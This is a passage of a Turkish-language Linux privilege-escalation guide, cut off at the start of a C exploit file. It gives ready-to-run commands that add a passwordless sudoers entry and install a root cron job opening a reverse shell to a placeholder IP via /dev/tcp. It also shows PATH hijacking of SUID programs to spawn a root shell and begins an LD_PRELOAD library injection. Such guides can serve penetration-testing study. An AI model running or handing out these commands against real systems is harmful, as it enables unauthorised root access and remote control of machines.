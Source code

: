 *   **`/etc/sudoers` Manipülasyonu:**
    1.  Kendi kullanıcımıza (`ahmet`) parolasız `sudo` hakkı ver: `ahmet ALL=(ALL) NOPASSWD: ALL`
    2.  Bunu geçici dosyaya yaz: `echo "ahmet ALL=(ALL) NOPASSWD: ALL" > /tmp/sudo_rule`
    3.  `tee` ile `sudoers` dosyasına ekle: `tee -a /etc/sudoers < /tmp/sudo_rule`
    4.  `sudo su` ile `root` ol.

*   **Cron Job Oluşturma:**
    1.  Ters kabuk (reverse shell) veren bir cron job oluştur: `echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'" > /etc/cron.d/shell`
    2.  Bir dakika bekle ve dinleyicide (listener) shell'i yakala.

### 3.3. İleri Düzey: Ortam Değişkeni Manipülasyonu

#### PATH Hijacking

Eğer bir SUID'li program, başka bir programı tam yoluyla (`/bin/ls`) değil de sadece adıyla (`ls`) çağırıyorsa, bu zafiyetten faydalanabiliriz.

1.  **Analiz:** `strace /path/to/suid_program` komutunu çalıştır ve `execve("program_ismi", ...)` gibi bir satır ara. Eğer `program_ismi` başında `/` yoksa, zafiyetlidir.
2.  **Sömürü:**
    ```bash
    # 1. Kendi zararlı komutumuzu oluştur (örneğin "ls" adıyla)
    echo "/bin/sh -p" > /tmp/ls
    chmod +x /tmp/ls

    # 2. PATH değişkenimizin başına /tmp dizinini ekle
    export PATH=/tmp:$PATH

    # 3. Zafiyetli SUID programını çalıştır
    /path/to/suid_program
    ```
    Program, `ls` komutunu ararken ilk olarak `/tmp` dizinine bakacak ve bizim zararlı script'imizi `root` yetkileriyle çalıştıracaktır.

### 3.4. İleri Düzey: Shared Object (Kütüphane) Injection

Bu teknik, SUID'li bir programın kullandığı kütüphaneyi, `LD_PRELOAD` ortam değişkeni aracılığıyla kendi zararlı kütüphanemizle değiştirmeye dayanır.

> **⚠️ Uyarı:** Modern Linux dağıtımları, güvenlik nedeniyle SUID'li prosesler için `LD_PRELOAD`'ı genellikle devre dışı bırakır (`/etc/ld.so.conf`). Bu nedenle bu teknik daha çok eski veya yanlış yapılandırılmış sistemlerde işe yarar.

1.  **Zararlı Kütüphane Kodu (`exploit.c`):**
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
